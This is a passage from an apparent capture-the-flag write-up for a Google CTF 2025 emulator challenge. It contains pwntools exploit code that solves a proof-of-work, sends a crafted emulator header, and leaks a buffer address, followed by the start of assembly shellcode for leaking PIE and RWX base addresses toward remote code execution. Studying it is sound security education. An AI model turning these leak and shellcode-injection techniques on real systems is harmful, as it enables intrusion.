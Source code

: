 ```python

p.recvuntil(b' solve ')
p.recvuntil(b' solve ')
to_solve = p.recvline().strip().decode()
print(f"{to_solve}")

sol = os.popen(f"python3 kctf-pow.py solve {to_solve} 2>/dev/null").read() #kctf-pow solver
print(sol)
p.sendlineafter(b"Solution? ", sol.encode())

p.recvuntil(b' unicornel!')

# Given format of header for the emulator
header = flat(
    p32(unicorn.UC_ARCH_X86),
    p32(unicorn.UC_MODE_64),
    p64(0x1000), p64(0x1000),         
    b'\0' * 3 * 16,             
    p16(len(code)),              
    p8(1)                        
).ljust(80, b'\0')

p.sendline(b'')
p.recvuntil(b'DATA_START')
p.send(header)
p.recvuntil(b'CODE_START')
p.send(code)

p.recvuntil(b'pid 0\n')

leaked_buf_addr = int(p.recvline().strip().decode())
print(f'leaked addr = {hex(leaked_buf_addr)}')
```

This now gives us the leaked buffer. If you notice, the buffer address always ends with 012bf0, since PIE is enabled. Let's analyse this with gdb.

Running vmmap we can see the memory mapping, and also obtain the PIE base. Also if you notice, the trustzone with modified RWX permission is also there. We need to be able to find this address as well to inject the shellcode for RCE

{{ img(id="/writeups/GoogleCTF2025/unicornel-trustzone/rwx-section.png", alt="Alt Text", class="textCenter") }}
{{ img(id="/writeups/GoogleCTF2025/unicornel-trustzone/pie-map.png", alt="Alt Text", class="textCenter") }}

This is the shellcode to calculate and leak PIE base and RWX base. 

```python
from pwn import *
import unicorn 
import os 

context.arch = "amd64"

code = asm(
r'''
    .intel_syntax noprefix

    /* create shared buffer*/
    mov rbx, 0x1000
    mov rax, 3
    int 0x80 

    /* Call create_trustzone to change perms */
```